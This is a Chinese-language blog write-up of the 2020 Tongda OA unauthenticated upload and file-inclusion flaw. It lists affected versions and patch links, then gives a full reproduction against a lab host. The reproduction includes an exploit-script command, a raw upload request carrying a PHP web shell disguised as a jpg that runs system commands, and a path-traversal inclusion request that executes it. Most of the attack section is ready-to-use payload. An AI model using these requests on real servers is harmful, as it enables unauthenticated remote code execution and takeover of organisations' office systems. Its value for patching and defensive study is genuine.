 **目录**

[漏洞描述](#t0 "漏洞描述")

[漏洞等级](#t1 "漏洞等级")

[漏洞影响版本](#t2 "漏洞影响版本")

[修复建议](#t3 "修复建议")

[漏洞复现](#t4 "漏洞复现")

* * *

### 漏洞描述

通达OA是北京通达信科科技有限公司出品的 "Office Anywhere 通达网络智能办公系统"。

3月13日，通达OA在官方论坛发布通告称，近日接到用户反馈遭到勒索病毒攻击，提示用户注意安全风险，并且于同一天对所有版本发布了加固补丁。

在受影响的版本中，攻击者可以在未认证的情况下向服务器上传jpg图片文件，然后包含该文件，造成远程代码执行。**该漏洞无需登录即可触发。**

### **漏洞等级**

**高危**

### **漏洞影响版本**

*   V11版
*   2017版
*   2016版
*   2015版
*   2013增强版
*   2013版

### 修复建议

| 版本 | 更新包下载地址 |
| --- | --- |
| V11版 | [http://cdndown.tongda2000.com/oa/security/2020\_A1.11.3.exe](http://cdndown.tongda2000.com/oa/security/2020_A1.11.3.exe "http://cdndown.tongda2000.com/oa/security/2020_A1.11.3.exe") |
| 2017版 | [http://cdndown.tongda2000.com/oa/security/2020\_A1.10.19.exe](http://cdndown.tongda2000.com/oa/security/2020_A1.10.19.exe "http://cdndown.tongda2000.com/oa/security/2020_A1.10.19.exe") |
| 2016版 | [http://cdndown.tongda2000.com/oa/security/2020\_A1.9.13.exe](http://cdndown.tongda2000.com/oa/security/2020_A1.9.13.exe "http://cdndown.tongda2000.com/oa/security/2020_A1.9.13.exe") |
| 2015版 | [http://cdndown.tongda2000.com/oa/security/2020\_A1.8.15.exe](http://cdndown.tongda2000.com/oa/security/2020_A1.8.15.exe "http://cdndown.tongda2000.com/oa/security/2020_A1.8.15.exe") |
| 2013增强版 | [http://cdndown.tongda2000.com/oa/security/2020\_A1.7.25.exe](http://cdndown.tongda2000.com/oa/security/2020_A1.7.25.exe "http://cdndown.tongda2000.com/oa/security/2020_A1.7.25.exe") |
| 2013版 | [http://cdndown.tongda2000.com/oa/security/2020\_A1.6.20.exe](http://cdndown.tongda2000.com/oa/security/2020_A1.6.20.exe "http://cdndown.tongda2000.com/oa/security/2020_A1.6.20.exe") |

### **漏洞复现**

首先下载安装包安装环境，安装包地址，关注微信公众号：xie\_sec ，回复：通达OA  即可获得下载链接。

安装好漏洞环境后，访问目标网站。

![](https://img-blog.csdnimg.cn/20200322214922531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**脚本复现**

首先用脚本复现，直接命令执行即可。

```
python3 tongda_rce.py 目标URL
```


![](https://img-blog.csdnimg.cn/20200322215017765.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**手工复现**

手工抓包验证，该漏洞存在于以下两个链接中，并且以下链接无需认证即可访问。

1.  任意文件上传漏洞  /ispirit/im/upload.php
    
2.  本地文件包含漏洞  /ispirit/interface/gateway.php
    

```
POST /ispirit/im/upload.php HTTP/1.1      
Host: 192.168.10.130      
Content-Length: 656      
Cache-Control: no-cache      
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36      
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB      
Accept: */*      
Accept-Encoding: gzip, deflate      
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5      1
Cookie: PHPSESSID=123      1
Connection: close       1
------WebKitFormBoundarypyfBh1YB4pV8McGB      1
Content-Disposition: form-data; name="UPLOAD_MODE"       1
2      1
------WebKitFormBoundarypyfBh1YB4pV8McGB      1
Content-Disposition: form-data; name="P"       2
123      2
------WebKitFormBoundarypyfBh1YB4pV8McGB      2
Content-Disposition: form-data; name="DEST_UID"       2
1      2
------WebKitFormBoundarypyfBh1YB4pV8McGB      2
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"      2
Content-Type: image/jpeg       2
<?php      3
$command=$_POST['cmd'];      3
$wsh = new COM('WScript.shell');      3
$exec = $wsh->exec("cmd /c ".$command);      3
$stdout = $exec->StdOut();      3
$stroutput = $stdout->ReadAll();      3
echo $stroutput;      3
?>      3
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```


上传成功后，我们看到服务器端返回的数据。接下来下一步我们需要包含的文件名就是 2003/89512385.jpg 

![](https://img-blog.csdnimg.cn/20200322215955445.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后访问  /ispirit/interface/gateway.php 链接，POST数据包如下

```
POST /ispirit/interface/gateway.php HTTP/1.1      
Host: 192.168.10.130      
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8      
Connection: close      
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3      
X-Forwarded-For: 127.0.0.1      
Upgrade-Insecure-Requests: 1      
Content-Type: application/x-www-form-urlencoded      1
Content-Length: 75       1
json={"url":"../../../general/../attach/im/2003/89512385.jpg"}&cmd=ipconfig
```


![](https://img-blog.csdnimg.cn/20200322223752497.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)